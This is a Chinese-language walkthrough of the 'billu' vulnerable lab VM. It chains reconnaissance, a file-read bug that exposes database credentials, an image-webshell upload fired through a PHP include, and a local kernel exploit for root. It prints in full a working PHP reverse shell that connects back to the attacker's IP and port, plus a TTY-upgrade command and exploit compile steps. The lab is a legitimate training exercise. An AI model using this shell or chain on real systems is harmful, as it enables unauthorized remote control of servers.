# billu靶场复现

## 环境搭建

攻击机：kali

网络连接都是nat

## 信息搜集

进行网段扫描探测，这里用的是nmap，发现目标主机ip和开放的端口，可以尝试访问web页面



发现web页面有一个登录框提示可以进行sql注入，所以进行尝试单双引号闭合，发现没有出现报错，只是提示“try again”，所以不在尝试



用dirb进行目录扫描看有没有敏感路径泄露或者是还有其他的业务功能



其中比较有价值的有

http://192.168.21.133/add，有上传图片的功能，但是经过尝试上传发现没有任何的回显



http://192.168.21.133/in，发现有phpinfo界面，有部分网站的配置信息泄露，注意到allow_url_fopen是on，它决定 PHP 是否允许把 URL 当作文件路径来处理，这里判断可能存在文件包含漏洞，但不知道解析点在哪里，要有用户可以用来进行可控输入的函数。结合上面有文件上传功能，有初步的思路就是先上传带有反弹shell的图片马，看是否有文件包含来进行触发反弹shell



http://192.168.21.133/test，页面出现提示，对file这个参数传递路径，立马想到他是不是文件读取包含点，可以尝试抓包传递参数



先尝试get传参，发现并没有回显



尝试post传参，这里出现了一个失误，get包改post包的时候没有在head添加Content-Type，导致发包错误。成功发包发现有用户账户信息出现，说明这里能对路径进行解析同时返回内容，存在文件读取漏洞，于是可以看其他页面的源码进行审计看有没有漏洞



对扫到的页面进行到吗审计，发现从c.php里面存了数据库配置信息，可以获取到账号和密码



登录/phpmy进行查找里面有一个账号和密码，可以在主页进行登录了



在主页进行登录后发现有两个功能点，一个是展示信息，一个是上传图片和信息





这里的思路就很明显了，在show的页面里面加载了图片，而且add又有上传图片的功能，可以上传图片马，但是关键在于有没有文件包含来进行触发，对http://192.168.21.133/panel.php查看源码，发现有危险函数include



思路：利用图片上传功能将带有反弹shell的图片上传服务器，让kali开启监听，在show页面利用include的解析能力让服务器进行解析，在解析的一瞬间kali监听成功，连上反弹shell

‍

‍

## GETSHELL

制作反弹shell

```yaml
copy /b 2.jpg + 1.php webshell.jpg
```

我这里采用的反弹shell是

```yaml
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.21.131';
$port = 8888;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

用add user将图片上传，kali先开启监听模式



对show user进行抓包处理，将load的参数改成你上传的图片的的地址，是相对当前目录的位置，如果不知道图片的地址可以右键在打开新标签里面查看



数据包发送的瞬间，反弹shell连接建立完成



现在进行tty升级，提高终端的可交互性和操作性

```yaml
python -c "import pty; pty.spawn('/bin/bash')"
```



## 提权

先进行信息搜集，查看当前用户和权限



用searchexploit命令搜索当前系统是否存在漏洞



用复制漏洞代码命令将漏洞利用代码复制到当前的目录





开启http服务，让靶机能够下载当前的漏洞利用代码





用 gcc 把它编译成一个二进制文件，给它执行权限，然后执行就获得 root 权限了

```yaml
gcc 37292.c -o exp
chmod +x exp
./exp
```



## 总结一下

这个靶场getshell利用的漏洞是文件读取漏洞和文件包含漏洞，文件读取漏洞用来读取源码，文件包含漏洞负责让服务器来进行解析触发反弹shell建立连接。整个渗透阶段最重要的是信息搜集，将搜集到的信息整合起来，建立起可能行的通的方案，慢慢排查
